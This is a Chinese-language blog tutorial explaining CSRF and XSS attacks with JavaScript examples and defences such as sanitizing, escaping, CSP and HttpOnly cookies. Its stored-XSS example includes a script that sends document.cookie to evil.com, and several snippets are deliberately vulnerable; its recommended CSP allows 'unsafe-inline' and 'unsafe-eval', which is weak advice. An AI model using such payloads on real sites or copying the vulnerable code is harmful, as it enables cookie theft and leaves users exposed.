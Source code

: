 +++
date = '2025-01-23'
draft = false
title = 'CSRF和XSS網路攻擊'
show_reading_time=true
featured_image = '/images/CSRF和 XSS攻擊 (1).png'
categories = ["資安"]
tags = ["資安","前端","後端"]
toc=true
+++

### CSRF(Cross-Site Request Forgery)，跨站請求偽造
CSRF是一種網路安全攻擊，攻擊者利用<b>網站和使用者之間的信任</b>，
網站會信任自己登入用戶的請求，但攻擊者卻可以偽造請求，在使用者不知情的情況下，對網站發送未經授權的請求。
<!--more-->

如果覺得有點模糊......
### 舉個例子來說明攻擊流程：

#### 1.使用者登入網站
🕸️ 使用者登入了某個網站(銀行、電子郵件服務等)，並在瀏覽器中保留登入的驗證身分資料(如cookie)

#### 2.攻擊者誘導使用者訪問惡意網站
🕸️攻擊者透過電子郵件、社交媒體等，誘使使用者點擊連結，而該連結包含了<b>惡意請求</b>

#### 3.使用者的瀏覽器發送請求
🕸️ 由於使用者的瀏覽器，已經存有網站的登入狀態(通常是cookie)，當瀏覽器發送這個惡意請求時，<b>它會自動附帶使用者的身分驗證訊息</b>
讓網站認為這是一個合法請求。

#### 4.網站執行未經授權的操作
🕸️ 網站依據收到的請求，執行不應該由攻擊者操作的敏感操作，如修改密碼、轉帳、刪除資料......。

### 如何預防CSRF攻擊
💉1.CSRF Token(防範CSRF的令牌)，網站可以為每個表單生成一個唯一的CSRF Token，當用戶提交表單時，該token必須和伺服器端的token匹配，若不匹配，請求會被拒絕。

💉2.檢查HTTP Referer標頭，伺服器可以檢查HTTP請求的Referer標頭，確保請求來自受信任的網站或是來源，這樣可以防止從惡意網站發出的請求。

💉3.設定SameSite Cookie屬性，設定cookies的 `SameSite`屬性，如此一來只能在相同網站的上下文中發送，也能防止第三方網站偽造跨站請求。

💉4.確保用戶的會話在一段時間後過期，並要求用戶重新登入，減少被利用的風險。

### XSS (Cross-Site Scripting)攻擊
XSS是一種網頁安全漏洞，攻擊者可以把惡意腳本注入在網頁中，當其他用戶瀏覽該頁面時，腳本就會在用戶的瀏覽器中執行。

### XSS類型
⌨️ 反射型XSS(Reflected XSS)
- 惡意代碼包含在URL中
- 當服務器把未經處理的參數反射回頁面時觸發

```js
// 假設網址為：
https://example.com/search?q=<script>alert('hacked')</script>

// 後端直接將參數插入 HTML：
app.get('/search', (req, res) => {
    res.send(`搜索結果：${req.query.q}`);  // 危險！
});
```

⌨️ 儲存型XSS(Stroed XSS)
- 惡意代碼被儲存在伺服器中
- 當其他用戶訪問頁面時觸發

```js
// 論壇留言功能
let comment = '<script>document.location="http://evil.com/?cookie="+document.cookie</script>';
// 直接存入資料庫，顯示時未經處理
```

⌨️ DOM Based XSS
- 透過修改頁面的Dom環境來攻擊
- 不需要與伺服器交互

```js
// 危險的代碼：
document.getElementById('user').innerHTML = location.hash.substring(1);

// 攻擊 URL：
https://example.com#<img src=x onerror="alert('hacked')">
```
### 常見的攻擊目標

1.竊取用戶信息(cookiew、session tokens)  
2.竊取用戶憑證  
3.重定向到釣魚網站  
4.修改網頁內容  
5.執行惡意操作  

### 防範XSS攻擊措施

💉輸入驗證和過濾
```js
// 不好的做法
app.get('/search', (req, res) => {
    res.send(`搜索結果：${req.query.q}`);
});

// 好的做法
const sanitizeHtml = require('sanitize-html');
app.get('/search', (req, res) => {
    const cleanQuery = sanitizeHtml(req.query.q);
    res.send(`搜索結果：${cleanQuery}`);
});
```

💉輸出編碼
```js
// 手動轉義
function escapeHtml(unsafe) {
    return unsafe
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#039;");
}
```
💉使用適當的HTTP Headers

```js
// 設置 Content Security Policy (CSP)
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self' 'unsafe-inline';"
    );
    next();
});
```
💉HttpOnly Cookie
```js
// 設置 HttpOnly cookie
res.cookie('sessionId', 'abc123', {
    httpOnly: true,
    secure: true
});
```

💉避免直接操作DOM

```js
// 不安全的做法
element.innerHTML = userInput;

// 安全的做法
element.textContent = userInput;
```
💉React、Vue、Angular框架都內建XSS防護
- 但需注意使用 dangerouslySetInnerHTML 等特殊 API

💉正則驗證
```js
// 驗證輸入是否符合預期格式
const isValidInput = (input) => {
    return /^[a-zA-Z0-9]+$/.test(input);
};
```